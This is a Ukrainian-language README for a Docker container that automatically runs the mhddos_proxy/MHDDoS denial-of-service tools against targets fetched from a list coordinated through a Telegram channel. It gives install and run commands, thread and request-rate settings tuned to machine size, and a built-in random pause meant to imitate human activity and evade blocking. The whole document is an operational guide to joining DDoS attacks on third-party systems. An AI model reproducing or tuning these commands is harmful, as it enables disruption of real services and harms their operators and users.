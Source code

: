 # Опис docker

# ЯКЩО ВИ КОРИСТУВАЧ WINDOWS, ТО ЗАБУДЬТЕ ПРО ДОКЕР, БО ЦЕ ВІРТУАЛКА, ЯКА ЖРЕ УВЕСЬ ПРОЦЕССОР, ТА ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/runner_for_windows
  
ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) docker-контейнер для будь-яких машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише цілі, а й скрипти з mhddos_proxy та MHDDoS  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 2-6 (рандомно) хвилин), тому знижується можливість блокування  
Скрипт розподіляє список машин по різним цілям: https://github.com/alexnest-ua/targets/blob/main/targets_docker  
Увесь source code знаходиться тут: https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker  
  
[**Налаштування**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)
[**Запуск команд**](

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відпочивати, він все зробить за вас)  
Чат, де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
Також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows / Mac:  
https://www.docker.com/get-started/ (якщо виникають якісь проблеми: пишіть мені @brainqdead (телеграм)

* щоб скачати на Linux-машину(але краще ставте напряму: https://github.com/alexnest-ua/auto_mhddos_alexnest ):  
```
sudo apt update -y
sudo apt upgrade -y
sudo curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
sudo echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt update -y
sudo apt remove docker docker-engine docker.io -y
sudo apt install docker-ce -y
sudo systemctl unmask docker.service
sudo systemctl unmask docker.socket
sudo systemctl start docker.service
sudo systemctl start docker
sudo systemctl enable docker
sudo docker run hello-world
docker run -it --rm --pull always alexnestua/auto_mhddos
```
  
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері та до завершення роботи на Windows) - можна закривати термінал
Запуск автоматичного ДДоСу(без виведення на екран):  
```
docker run -itd --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 
```

**!!!УВАГА!!!** контейнер підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
docker run -it --rm --pull always --name alexnest alexnestua/auto_mhddos [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд НЕ у фон з різними параметрами(для Linux додавайте sudo, або краще ставте на пряму: https://github.com/alexnest-ua/auto_mhddos_alexnest):

1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=3000 rpc=1000 debug="" (1 ціль, 3000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу)
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest
```
**CPUs** - це потоки вашого процесора (не ядра) - зазвичай потоків у два рази більше ніж ядер  

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 1000
```

3. Середня машина(2-4 CPUs + 2-8 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 5000 2000
```

4. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 2 6000 2000
```

6. Потужна машина(9+ CPUs + 16+ CB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest all 6000 5000
```

Після цього, якщо хочете вбити процес - натискайте Ctrl+C  (у його відкритій вкладці)  

*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 1000 --debug
```

* Приклад БЕЗ параметру --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_no_debug.png?raw=true)
* Приклад З параметром --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_debug.png?raw=true)

* щоб подивитися що там працює у фоні(для Linux додайте sudo) та вбити процес:  
```
docker ps  -a
щоб вбити запущені раніше фонові підпроцеси на Linux прописуєте:  
sudo docker kill $(docker ps -aqf name=alexnestua)
або на Windows зайти у Docker Dekstop -> Containers / Apps -> Видалити container з ім'ям alexnestua
```



## Список цілей  

  
alexnestua/auto_mhddos підтримує єдиний [список цілей](https://github.com/alexnest-ua/targets/blob/main/targets_docker), який можна тримати на github і постійно оновлювати.  
  
    
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  

## Thanks

Special thanks to https://github.com/OleksandrBlack and https://twitter.com/SprechenFuehrer  
